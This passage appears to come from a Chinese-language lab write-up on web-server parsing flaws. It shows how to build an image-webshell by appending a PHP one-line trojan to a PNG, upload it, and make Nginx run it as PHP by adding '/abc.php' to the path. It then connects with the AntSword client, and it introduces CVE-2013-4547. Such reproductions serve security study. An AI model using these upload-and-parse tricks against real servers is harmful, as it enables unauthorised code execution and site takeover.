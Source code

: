 ###### 格式

```
copy 图片文件名/b+一句话木马文件名 图片马文件名
```

###### 制作

```
copy 1.png/b+xxx.php xxx.png
```

![image-20240713102758513](https://image.201068.xyz/assets/image-20240713102758513.png)

![image-20240713103000026](https://image.201068.xyz/assets/image-20240713103000026.png)

##### 3.上传图片码

![image-20240713104313384](https://image.201068.xyz/assets/image-20240713104313384.png)

```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png
```

![image-20240713104250707](https://image.201068.xyz/assets/image-20240713104250707.png)

##### 4.添加/abc.php路径

如果发现没有 `abc.php` 就会向上匹配到 `.png` 文件

在图片马路径后添加 /abc.php，成功按照PHP解析

```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png/abc.php
```

![image-20240713103522820](https://image.201068.xyz/assets/image-20240713103522820.png)

##### 5.蚁剑连接

```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png/abc.php
xxx
```

![image-20240713103422110](https://image.201068.xyz/assets/image-20240713103422110.png)

![image-20240713103355107](https://image.201068.xyz/assets/image-20240713103355107.png)

### 2、CVE-2013-4547（文件名逻辑漏洞）复现

#### 漏洞介绍

该漏洞利用了Nginx错误的解析了URL地址，导致可以绕过服务端限制，从而解析PHP文件，造成命 令执行的危害。 

根据`nginx.conf`文件中`location`中的定义，以.php结尾的文件都解析为php。 

